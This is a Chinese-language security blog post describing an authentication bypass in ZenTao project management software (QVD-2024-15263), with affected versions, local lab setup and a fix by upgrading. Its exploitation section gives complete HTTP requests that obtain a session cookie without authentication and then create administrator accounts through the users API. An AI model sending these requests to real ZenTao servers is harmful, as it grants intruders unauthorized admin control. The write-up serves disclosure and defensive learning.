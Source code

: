 #  QVD-2024-15263：禅道身份认证绕过漏洞   
原创 XbnWa  Timeline Sec   2024-05-08 21:05  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：XbnWa@Timeline Sec 本文字数：980 阅读时长：1～3min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
禅道由禅道软件（青岛）有限公司开发，国产开源项目管理软件。它集项目集管理、产品管理、项目管理、质量管理、DevOps、知识库、BI效能、工作流、学堂、反馈管理、组织管理和事务管理于一体，是一款专业的研发项目管理软件，完整覆盖了研发项目管理的核心流程。  
## 0x02 漏洞概述  
  
禅道项目管理系统在开源版、企业版、旗舰版的部分版本中都存在此安全漏洞。攻击者可利用该漏洞创建管理员用户，获得后台管理员权限。在进入后台后，也可以结合其他漏洞实现远程代码执行。  
## 0x03 影响版本  
  
v16.x <= 禅道 < v18.12 （开源版）v6.x <= 禅道 < v8.12 （企业版）v3.x <= 禅道 < v4.12 （旗舰版）  
## 0x04 环境搭建  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtj1VaeYA1ooww0E0PQdmNDzkR6V9drwPIJ6Eb57CweDoedINFTTVFzWQ/640?wx_fmt=png&from=appmsg "")  
  
windows安装包地址如下:  
```
https://www.zentao.net/dl/zentao/18.10/ZenTaoPMS-18.10-zbox.win64.exe

```  
  
成功搭建  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtj6IIhoaRCKoAaFqXmicWX4SGRIQicSdvibRw9Bym9UvA21JJv6YUDTicDqQ/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞利用  
  
未授权获取有效cookie  
```
GET /zentao/api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=dddidkyodsnfamzvjidb&branch=klmnehgxnsmeuhshbooy HTTP/1.1
Host: 127.0.0.1:81
Content-Length: 2

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtjrKpQx0H7yO0w33uoXqmice5ialXdBH5RWn4bicm2Dj6jI6I5rBXYD3fFA/640?wx_fmt=png&from=appmsg "")  
  
创建管理员用户  
```
POST /zentao/api.php/v1/users HTTP/1.1
Host: 127.0.0.1:81
Cookie: zentaosid=xxxxx;
Content-Length: 90

{"account":"rootroot","password":"Qwe123","realname":"rootroot","role":"","group":"2"}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtjSzicbKaxIKUODpg9hcYUKDJXqPmflLq4QJCJ48hxal4oWrGOTdyv5UQ/640?wx_fmt=png&from=appmsg "")  
  
登录成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtjv5UY7exicWep7wHeH5hTBZic4bFqswglJBfCddy2Jl3GIOazhZMeTwhQ/640?wx_fmt=png&from=appmsg "")  
  
将group改为1会多一个插件管理  
```
POST /zentao/api.php/v1/users HTTP/1.1
Host: 127.0.0.1:81
Cookie: zentaosid=xxxxx;
Content-Length: 86

{"account":"tttttt","password":"Qwe123","realname":"tttttt","role":"","group":"1"}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshbEgYfUCjRiber11thEqvtjHVCbibibPFQ7T6wCVohRDDMNc3vxJG64BO3bOEYLY20zDqjLcdzj8JNg/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
升级至安全版本https://www.zentao.net/index.html  
## 参考链接  
  
https://www.zentao.net/book/zentaopmshelp/76.htmlhttps://x.threatbook.com/v5/article?threatInfoID=107860https://mp.weixin.qq.com/s/FwKHmDxD7eyfiuZPNoGM6A  
## 历史漏洞  
  
[](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491267&idx=1&sn=ee6783d199b1ec0733802a13bc23d56b&chksm=90393833a74eb125aed40d88dfb156b2de357e7ab3571da296998f0159a6a6e8454656b24158&scene=21#wechat_redirect)  
[禅道权限绕过与命令执行漏洞-前台](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491671&idx=1&sn=850b394fac64fe3f4cdd8c767252e943&chksm=903ac6a7a74d4fb174849afc5d487741c457d4ad8abc38bc8f8f163f6730d45fefa65d22e691&scene=21#wechat_redirect)  
[CNVD-2022-42853-前台-POC已公开](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491267&idx=1&sn=ee6783d199b1ec0733802a13bc23d56b&chksm=90393833a74eb125aed40d88dfb156b2de357e7ab3571da296998f0159a6a6e8454656b24158&scene=21#wechat_redirect)  
禅道 11.6 任意文件写入-前台禅道 11.6 任意文件读取-前台禅道 12.4.2-CNVD-2020-68552-前台[禅道 12.4.2-CNVD-C-2020-121325](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486478&idx=1&sn=57a0869952871b4cb2208b3f00805805&chksm=90392afea74ea3e8ca541c03188acf1c040eef713b43b0fed859ae08e1f4de8851f4fc7494bf&scene=21#wechat_redirect)  
禅道	17.4 后台命令执行漏洞禅道 11.6 后台SQL注入漏洞  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】获取官方直播精品课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就收藏起来吧！  
  
顺便点个赞和在看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
